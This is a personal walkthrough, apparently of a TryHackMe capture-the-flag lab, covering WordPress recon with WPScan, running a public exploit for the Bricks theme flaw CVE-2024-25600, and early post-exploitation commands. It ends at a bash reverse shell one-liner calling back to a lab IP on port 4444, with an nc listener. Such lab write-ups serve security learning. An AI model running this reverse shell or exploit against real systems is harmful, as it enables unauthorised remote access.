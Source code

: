 # Documentation

### Step 1: Recon & Initial Investigation

  - Upon entering the TryHack3M: Bricks Heist room, I started both the AttackBox and the victim system.
  
  - The first instructions state to add the IP to the /etc/hosts file within the AttackBox.
    
  - To do this, I first used the command "cat /etc/hosts" to see what was already in the file.
  
  - I then entered the command, "sudo nano /etc/hosts" to open the file as a .txt document for editing.
  
  - I added a new line under the IP 127.0.1.1, the new line reads, "10.10.240.33 (tab) bricks.thm".
  
  - Since the instructions wanted this IP added to the hosts file, I theorized that it was a webpage. 
  
  - I tested this theory by opening Mozilla Firefox and entering "https://bricks.thm" into the search bar and a webpage loaded that had the title, "Brick by Brick!" with a photo of bricks.
  
  - I decided to investigate the source code of the webpage using CTRL+U.
  
  - I noticed multiple references of "wp-", leading me to believe it was referencing WordPress, so I decided to try WPScan.

  - I opened the terminal and typed the command, "wpscan --url https://bricks.thm/".
      - The scan aborted, "url seems to be down, SSL peer certificate or SSH remote key was not OK".
      - Retried scan while disabling the tls certificate check, "wpscan --url https://bricks.thm/ --disable-tls-checks".
        
  - The scan ran successfully, the results showed the style "bricks" for WordPress, and the version was 1.9.5.

  - I used Google to search for "bricks 1.9.5" and the results showed that this was a vulnerable version of bricks, and there was an exploit available for this vulnerability (CVE-2024-25600) on GitHub.

    ### Step 2: Exploitation

  - I copied the raw exploit code for the bricks version 1.9.5 vulnerability from GitHub and pasted it into a nano .txt file titled, "shell.py".

  - Opened a terminal and ran the command, ```python3 shell.py -u https://bricks.thm```
    - There was an error running the script, a few modules needed to be installed first.
      - Installed rich module
        ``` bash
        pip3 install rich
        ```
        - Retried the python script, another error occured.
          - Installed prompt-toolkit module
            ``` bash
            pip3 install prompt-toolkit
            ```
            - Retried the python script, yet another error occured.
              - Installed alive-progress module
                ``` bash
                pip3 install alive-progress
                ```
                - Ran python script, it finally worked and the vulnerability was confirmed to be present.
  
  ### Step 3: Exploring Initial Access

  - I ran the command "whoami" to discover who I was logged into.
      ``` bash
      whoami
      ```
    - Results: Apache

    - I ran the command "pwd" to discover where I was located within the file directories.
      ``` bash
      pwd
      ```
        - Results: /data/www/default

        - I attempted to change directories by using "cd /home"
          ``` bash
          cd /home
          ```
            - Results: Deprecated connection. This means that the shell we are using is unstable.
    
    - I then tried to set up a reverse shell to hopefully have access to a more stable shell.
      ``` bash
      bash -c 'exec bash -i &> dev/tcp/10.10.96.228/4444 <&1'
      ```
      
        - Before executing the reverse shell command, I opened another terminal to set up a listener on port 4444.
          ``` bash
          nc -lvnp 4444
          ```

          - Executed the reverse shell command.

